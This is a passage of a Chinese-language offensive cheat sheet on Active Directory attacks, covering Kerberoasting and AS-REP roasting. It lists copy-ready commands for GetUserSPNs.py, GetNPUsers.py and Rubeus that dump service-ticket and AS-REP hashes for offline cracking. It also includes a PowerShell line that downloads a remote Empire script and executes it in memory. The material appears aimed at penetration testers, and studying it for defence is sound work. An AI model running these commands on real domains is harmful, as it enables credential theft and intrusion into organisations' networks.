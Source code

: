 
3. **票證收集工具**：攻擊者需要使用相關的工具來向域控制器發送請求，收集到目標帳號的 TGS Ticket。常用的工具包括Mimikatz、PowerShell 腳本等。


> Tools

1. GetUserSPNs.py
```
python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
```

2. Rubeus
- Windows
```
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

3. Powershell

```
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>
```

### AS-REP Roasting attack 

AS-REP roasting攻擊的核心是利用未啟用Pre-Authentication的帳戶，從而能夠直接獲取AS-REP回應，然後對其進行離線破解。攻擊者不需要知道帳戶的密碼，只需要對目標帳戶發送一個AS-REP請求，然後收集回應，並進行離線破解。這種攻擊通常針對普通用戶帳戶，因為它們更容易被忽略，並且可能更容易具有未啟用Pre-Authentication的設置。

> Result 

AS-REP roasting 攻擊的目的是獲取目標帳戶的明文密碼或是 NTLM 雜湊值。通常，攻擊者對目標帳戶的密碼感興趣，以便進一步滲透目標系統或者獲取敏感信息。

> Condition 

1. Valid Domain User Name 
2. Domain Name

> Tools: 

1. GetNPUsers.py

```
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

2. Rubeus
- Windows

```
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```
